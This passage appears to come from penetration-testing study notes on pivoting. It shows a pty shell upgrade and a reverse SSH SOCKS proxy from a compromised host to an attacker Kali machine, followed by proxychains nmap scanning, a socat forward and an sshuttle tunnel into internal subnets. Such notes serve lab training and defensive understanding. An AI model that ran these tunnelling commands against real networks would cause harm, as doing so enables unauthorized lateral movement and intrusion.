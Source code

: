 1. From TARGET 1

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

# bind the SOCKS proxy to [some PORT, ex 9999] on the loopback interface of our Kali machine
# Also add `socks5 127.0.0.1 [PORT]` to `/etc/proxychains4.conf`
ssh -N -R [PORT] kali@[ATTACKER MACHINE]
```



2. As in classic dynamic port forwarding example, use `proxychains` to tunnel traffic over this SOCKS proxy port. Edit the configuration file at `/etc/proxychains4.conf` on our Kali machine to reflect our new local SOCKS proxy port. Add `socks5 127.0.0.1 [PORT]`.

Then we can run the commands:
```

proxychains nmap -vvv -sT --top-ports=20 -Pn -n [TARGET 2]

```















## sshuttle
- <https://github.com/sshuttle/sshuttle>

Turns an SSH connection into something similar to a VPN by setting up local routes that force traffic through the SSH tunnel.


Requires:
- root privileges on the SSH client
- Python3 on the SSH server


1. On TARGET 1
```
socat TCP-LISTEN:2222,fork TCP:[TARGET 2]:22
```




2. On ATTACKER MACHINE
Run `sshuttle`, specifying the SSH connection string we want to use, as well as the subnets that we want to tunnel through this connection (10.4.50.0/24 and 172.16.50.0/24).

```
sshuttle -r [USER]@[TARGET 1]:2222 [SUBNET 1] [SUBNET 2]

# Example
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24

```
